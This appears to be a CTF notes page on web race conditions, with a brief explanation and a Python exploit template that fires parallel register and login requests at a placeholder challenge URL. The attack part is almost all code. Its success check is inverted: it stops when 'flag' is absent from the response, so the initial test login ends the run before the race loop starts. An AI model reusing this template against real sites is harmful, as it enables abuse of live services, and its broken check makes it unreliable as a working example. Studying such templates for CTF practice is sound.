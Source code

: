 # 🏁 Race conditions

A race condition happens when concurrent calls lead to a not wanted status of the system.
This can occur in web app because they are thought for multiple user access at the same time.

For example, consider two users that want to modify the same value.
They interact with the server and ask to it in parallel for two different changes.
No synchronization between calls, no transactions for read and write or whatever multithreads control system is implemented.

<p align="center">
    <img src={require("./assets/race_condition.jpg").default}></img>
</p>

## Exploit template

```py
#!/usr/bin/env python3

import random
import string
import requests
import threading
import time

# change this value with the base url like "https://challenge.pwn"
URL = "URL"

# very simple way for multithread communication
# remember to use `global found`
found = False


def register(session, username, password):
    url = "%s/register" % URL
    payload = {"username": username, "password": password}
    r = session.post(url, data=payload)
    return r.text


def login(session, username, password):
    # import global found to communicate with the main thread
    global found

    url = "%s/login" % URL
    payload = {"username": username, "password": password}
    r = session.post(url, data=payload)

    # check for flag and print output
    if "flag" not in r.text:
        print(r.text)
        found = True

    return r.text


def random_string():
    k = random.randint(6, 15)
    allowed_chars = string.ascii_lowercase + string.digits
    return "".join(random.choices(allowed_chars, k=k))


# test calls

session = requests.Session()
username = random_string()
password = random_string()

res = register(session, username, password)
assert "success" in res

res = login(session, username, password)
assert "success" in res

# start exploit

while not found:
    session = requests.Session()
    username = random_string()
    password = random_string()

    t_register = threading.Thread(target=register,
        args=(session, username, password))
    t_register.start()

    # sometimes, a small delay between calls could be needed
    k = random.random() / 10
    time.sleep(k)

    t_login = threading.Thread(target=login,
        args=(session, username, password))
    t_login.start()

    # wait for the last thread to finish
    t_login.join(timeout=1)
```
